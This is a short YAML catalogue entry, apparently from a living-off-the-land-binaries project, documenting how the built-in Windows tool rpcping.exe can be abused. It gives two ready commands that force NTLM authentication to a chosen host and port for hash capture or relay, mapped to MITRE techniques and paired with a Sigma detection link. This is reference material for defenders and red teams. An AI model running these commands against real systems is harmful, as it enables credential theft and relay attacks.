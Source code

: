 ```yaml
---
Name: Rpcping.exe
Description: Used to verify rpc connection
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: rpcping -s 127.0.0.1 -e 1234 -a privacy -u NTLM
    Description: Send a RPC test connection to the target server (-s) and force the NTLM hash to be sent in the process.
    Usecase: Capture credentials on a non-standard port
    Category: Credentials
    Privileges: User
    MitreID: T1003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: rpcping /s 10.0.0.35 /e 9997 /a connect /u NTLM
    Description: Trigger an authenticated RPC call to the target server (/s) that could be relayed to a privileged resource (Sign not Set).
    Usecase: Relay a NTLM authentication over RPC (ncacn_ip_tcp) on a custom port
    Category: Credentials
    Privileges: User
    MitreID: T1187
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\rpcping.exe
  - Path: C:\Windows\SysWOW64\rpcping.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_rpcping.yml
Resources:
  - Link: https://github.com/vysec/RedTips
  - Link: https://twitter.com/vysecurity/status/974806438316072960
  - Link: https://twitter.com/vysecurity/status/873181705024266241
  - Link: https://twitter.com/splinter_code/status/1421144623678988298
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Vincent Yiu
    Handle: '@vysecurity'
  - Person: Antonio Cocomazzi
    Handle: '@splinter_code'
  - Person: ap
    Handle: '@decoder_it'
---
```

